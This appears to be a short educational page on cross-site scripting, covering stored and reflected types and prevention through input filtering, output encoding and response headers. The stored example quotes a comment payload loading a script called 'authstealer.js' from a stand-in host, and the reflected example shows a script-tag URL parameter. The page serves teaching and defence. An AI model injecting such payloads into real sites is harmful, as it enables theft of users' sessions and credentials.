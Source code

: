 ## XSS (Cross Site Scripting)

XSS attacks are a type of injection in which malicious scripts are injected into benign/trusted websites. Occurs when an attacker uses a vulnerable web application to send malicious code, generally in the form of browser side script, to end users. This can happen anywhere when a web application uses input within the output it generates without validating or encoding it.

Browsers have no way to know that the script should not be trusted and hence, will execute script. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. Allows the attacker to carry out any actions the user is able to perform.

<img src="../assets/XSS.png">

## XSS Types

### Stored (Persistent)

Stored XSS occurs when a malicious script is injected directly into a vulnerable web application and permanently stored. Most frequent targets are websites that allow users to share content/comments/messages (blogs, videos, social networks). Each time the infected page is viewed, the malicious script is transmitted to the victim's browser.

For instance, if an e-commerce website allows users to embed HTML in the comments section, the embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code everytime the page is opened.

```
Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.
```

### Reflected

Reflected XSS are those where the injected script is reflected off the web server, such as in an error message, search results, or other response that includes some or all of the input sent to the server as part of the request. Attacks are delivered to victims viat another route, such as an email message or malicious link. The injected code travels to the vulnerable website, which reflects the attack back to the user's browser.

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>

https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

## Prevention/Mitigation

### Filter input on arrival

At the point where user input is received, filter as strictly as possible based on what is expected or valid input.

### Encode data on output

If user-controlled data is output in HTTP responses, encode the output to prevent it from being interpreted as active content.

### Use appropriate response headers

To prevent XSS in HTTP responses that are not intended to contain HTML/JS, can use Content-Type and X-Content-Type-Options headers to ensure browsers interpret responses correctly.
